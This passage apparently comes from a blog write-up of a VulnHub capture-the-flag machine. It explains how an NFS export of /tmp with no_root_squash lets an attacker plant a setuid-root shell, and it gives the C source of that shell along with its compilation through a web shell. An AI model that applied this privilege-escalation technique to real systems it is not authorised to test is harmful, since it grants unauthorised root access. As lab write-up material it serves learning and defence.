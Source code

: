#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/tmp *(rw,no_root_squash)

{% endhighlight %}

After some research the important part: (rw, no_root_squash) essentially tells the nfs daemon to create files as the user running the service and leave them as is.  When this setting is not present (default in most cases) nfsnobody is the user who owns files created via nfs this is to prevent programs like the one found below from being uploaded and used to escalate privilege.  This means chown chmod are open game

### Exploit

Once I found that nfs was running as root I started looking up how to exploit it and an example for this VM, credits to g0blin research (https://g0blin.co.uk/orcus-vulnhub-writeup/#elevation) was available to learn from:

{% highlight c %}
#include <unistd.h>

main(int argc, char ** argv, char ** envp)
{
    setgid(0);
    setuid(0);
    system("/bin/bash", argv, envp);
    return 0;
}
{% endhighlight %}

Then on through our web shell:

{% highlight bash %}
cd /tmp
gcc shell.c -o shell
shell.c:3:1: warning: return type defaults to 'int' [-Wimplicit-int]
 main( int argc, char ** argv, char ** envp )
 ^
shell.c: In function 'main':
shell.c:7:2: warning: implicit declaration of function 'system' [-Wimplicit-function-declaration]
 system("/bin/bash", argv, envp);
 ^
{% endhighlight %}

